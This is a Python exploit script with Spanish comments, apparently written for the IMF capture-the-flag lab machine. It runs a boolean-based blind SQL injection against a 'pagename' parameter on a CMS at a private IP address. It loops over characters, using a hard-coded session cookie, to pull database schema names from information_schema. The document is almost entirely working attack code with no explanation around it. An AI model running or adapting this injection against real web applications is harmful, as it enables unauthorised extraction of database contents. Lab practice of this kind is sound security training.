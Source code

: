 ```
#!/usr/bin/python3

from pwn import *
import requests, signal, sys, time, string

def ctrl_c(sig, frame):
    print("\n[!] Saliendo...\n")
    sys.exit(1)

# Ctrl + C
signal.signal(signal.SIGINT, ctrl_c)

# Variables globales
characters = string.ascii_lowercase + "_," + string.digits
main_url = "http://192.168.3.227/imfadministrator/cms.php?pagename="

def sqli():

    header = {
        'Cookie': 'PHPSESSID=a7rq935a1b6pmjphdgnkhn5kh2'
    }

    data = ""

    p1 = log.progress("SQLI")
    p1.status("Iniciando ataque de inyección SQL")

    time.sleep(2)

    p2 = log.progress("Data")

    for position in range(1, 100):
        for character in characters:

            sqli_url = main_url + "home' or substring((select group_concat(schema_name) from information_schema.schemata),%d,1)='%s" % (position, character)

            r = requests.get(sqli_url, headers=header)

            if "Welcome to the IMF Administration." not in r.text:
                data += character
                p2.status(data)
                break

    p1.success("Ataque de inyección SQL finalizado exitosamente")
    p2.success(data)

if __name__ == '__main__':

    sqli()
```
